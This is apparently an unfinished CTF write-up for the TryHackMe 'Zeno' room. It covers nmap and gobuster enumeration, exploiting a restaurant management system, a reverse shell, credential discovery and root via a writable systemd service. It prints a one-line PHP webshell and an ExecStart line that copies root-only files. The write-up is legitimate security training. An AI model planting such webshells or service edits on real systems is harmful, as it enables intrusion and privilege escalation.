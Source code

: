 # Zeno (unfinished writeup)

Writeup for [Zeno](https://tryhackme.com/room/zeno) room at [TryHackMe](https://tryhackme.com/).
URL for this room is: https://tryhackme.com/room/zeno

Table of Contents
=================
* [Port Scan](#Port-scan)
* [Enumerating the Webserver](#Enumerating-the-Webserver)
* [Remote Code Execution](#Remote-Code-Execution)
* [Gaining Access](#Gaining-Access)
* [Root Access](#Root-Access)

# Port scan
Firstly, I have set an environment variable `IP` of the target machine's IP address.
Then I have conducted ***Nmap SYN*** scan against all of the TCP ports of the target machine with the command `sudo nmap -vv -sS -p- $IP` to see which ports are open. I had saved the following output to a file with `-oN` flag:

```
# Nmap 7.60 scan initiated Sat Oct 23 10:27:21 2021 as: nmap -vv -sS -p- -oN enum.txt 10.10.154.116
Nmap scan report for ip-10-10-154-116.eu-west-1.compute.internal (10.10.154.116)
Host is up, received arp-response (0.00042s latency).
Scanned at 2021-10-23 10:27:21 BST for 155s
Not shown: 65533 filtered ports
Reason: 65372 no-responses and 161 host-prohibiteds
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 64
12340/tcp open  unknown syn-ack ttl 64
MAC Address: 02:F5:20:98:22:CD (Unknown)

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Oct 23 10:29:57 2021 -- 1 IP address (1 host up) scanned in 155.84 seconds
```

The open ports are:
1. Port ***22*** runnign SSH service.
2. Port ***12340*** with an unknown service running.
Against those ports I have performed a more comprehensive scan with the command `nmap -vv -O -sV -sC -p 22,12340 $IP`. I was able to get the following information:

```
#Nmap 7.60 scan initiated Sat Oct 23 10:38:03 2021 as: nmap -vv -O -sV -sC -p 22,12340 -oN open_ports.txt 10.10.94.20
Nmap scan report for ip-10-10-154-116.eu-west-1.compute.internal (10.10.154.116)
Host is up, received arp-response (0.00043s latency).
Scanned at 2021-10-23 10:38:03 BST for 17s

PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 09:23:62:a2:18:62:83:69:04:40:62:32:97:ff:3c:cd (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDakZyfnq0JzwuM1SD3YZ4zyizbtc9AOvhk2qCaTwJHEKyyqIjBaElNv4LpSdtV7y/C6vwUfPS34IO/mAmNtAFquBDjIuoKdw9TjjPrVBVjzFxD/9tDSe+cu6ELPHMyWOQFAYtg1CV1TQlm3p6WIID2IfYBffpfSz54wRhkTJd/+9wgYdOwfe+VRuzV8EgKq4D2cbUTjYjl0dv2f2Th8WtiRksEeaqI1fvPvk6RwyiLdV5mSD/h8HCTZgYVvrjPShW9XPE/wws82/wmVFtOPfY7WAMhtx5kiPB11H+tZSAV/xpEjXQQ9V3Pi6o4vZdUvYSbNuiN4HI4gAWnp/uqPsoR
|   256 33:66:35:36:b0:68:06:32:c1:8a:f6:01:bc:43:38:ce (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEMyTtxVAKcLy5u87ws+h8WY+GHWg8IZI4c11KX7bOSt85IgCxox7YzOCZbUA56QOlryozIFyhzcwOeCKWtzEsA=
|   256 14:98:e3:84:70:55:e6:60:0c:c2:09:77:f8:b7:a6:1c (EdDSA)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOKY0jLSRkYg0+fTDrwGOaGW442T5k1qBt7l8iAkcuCk
12340/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods:
|   Supported Methods: OPTIONS GET HEAD POST TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: We&#39;ve got some trouble | 404 - Resource not found
MAC Address: 02:F5:20:98:22:CD (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.13 (93%), Linux 3.8 (93%), Crestron XPanel control system (89%), HP P2000 G3 NAS device (86%), ASUS RT-N56U WAP (Linux 3.4) (86%), Linux 3.1 (86%), Linux 3.16 (86%), Linux 3.2 (86%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (86%), Linux 2.6.32 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.60%E=4%D=10/23%OT=22%CT=%CU=%PV=Y%DS=1%DC=D%G=N%M=02F520%TM=6173D80C%P=x86_64-pc-linux-gnu)
SEQ(SP=101%GCD=1%ISR=10B%TI=Z%TS=A)
OPS(O1=M2301ST11NW7%O2=M2301ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M2301ST11NW7%O6=M2301ST11)
WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)
ECN(R=Y%DF=Y%TG=40%W=6903%O=M2301NNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 0.030 days (since Sat Oct 23 09:55:45 2021)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=257 (Good luck!)
IP ID Sequence Generation: All zeros

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 23 10:38:20 2021 -- 1 IP address (1 host up) scanned in 16.85 seconds
```
On port ***22*** an `OpenSSH 7.4` ssh service is running.
On port ***12340*** an `Apache httpd 2.4.6 (CentOS)` webeserver is running. This webserver also has `PHP/5.4.16` installed.

# Enumerating the Webserver

Connecting to the webserver from within a browser gives ***Resource not found*** error shown below.

![Resource not found](/Zeno/images/Resource_not_found.png)

I have then used `nikto -h $IP -p 12340` command to enumerate the webserver's directories. The output of this command was:

```
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.154.16
+ Target Hostname:    ip-10-10-154-16.eu-west-1.compute.internal
+ Target Port:        12340
+ Start Time:         2021-10-23 11:05:36 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.6 (CentOS) PHP/5.4.16
+ Server leaks inodes via ETags, header found with file /, fields: 0xf39 0x5c80c1adc76e0
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST, TRACE
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 6544 items checked: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2021-10-23 11:05:46 (GMT1) (10 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested``
```

For further enumeration of the webserver's directories I have used `gobuster dir -u http://$IP:12340 -w /usr/share/wordlists/dirb/big.txt` command, which resulted in the following:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.154.116:12340/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/10/23 14:20:25 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/rms (Status: 301)
===============================================================
2021/10/23 14:20:28 Finished
===============================================================
```

The scan lists three possible directories, from which only `/rms` one is accessible. Going to this webserver's directory via a browser gives a homepage of Pathfinder Hotel Restaurant Management System.

![Restaurant management system](/Zeno/images/Restaurant_management_system.png)

The Google search of `restaurant management system exploit` led to a Remote Code Execution exploit for this system, written in Python.

# Remote Code Execution

The downloaded exploit had formatting issues and a broken hardcoded proxy.
Fixing formatting and deleting code for proxy led to a successful upload of a webshell `<?php echo shell_exec($_GET["cmd"]); ?>` at http://$IP:12340/rms/images/reverse-shell.php URL, which shows blank page.

![Blank exploit page](/Zeno/images/Blank_exploit_page.png)

Although the uploaded webshell can accept commands with the syntax of http://$IP:12340/rms/images/reverse-shell.php?cmd=<argument>. For example, id argument prints this:

![System ID](/Zeno/images/System_ID.png)

At this point I am doing the following:

1. Exporting 1234 as a listening port - LPORT - and setting up a netcat listener with `nc -lnvp $LPORT`.
2. Passing a Python reverse shell found at [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) as an argument to the webshell URL.

The webpage is blank, but the listener captured a shell connection!


![Reverse shell](/Zeno/images/Reverse_shell.png)

# Gaining Access

Going to the server's home directory shows that the user `edward` is on the system.
Tried Hydra for cracking edward's SSH password but no luck there.
Getting back to /var/www/html/rms/connection folder and listing it's contets shows a config.php file. Inside this file there are credentials for the root user of a database.

![Database credentials](/Zeno/images/Database_credentials.png)

Although connecting to mysql database from the shell with these credentials resulted in an error.
***Update 10/29/2021***
I tried downloading LinPeas to the remote machine with curl, but it failed.
Then I looked up in /etc/fstab file and found credentials for user `edward` on zeno machine.
Connected to the remote machine with zeno password with user `edward` via SSH and found the user.txt file with the first flag.

# Root Access

There is a writable service file named zeno-monitoring.
Adding `ExecStart=/usr/bin/cp /root/root.txt /home/edward/rootflag.txt` to the zeno-monitoring service file and rebooting the machine leads to a readable root.txt with ***root flag*** after a reconnection to a rebooted machine.
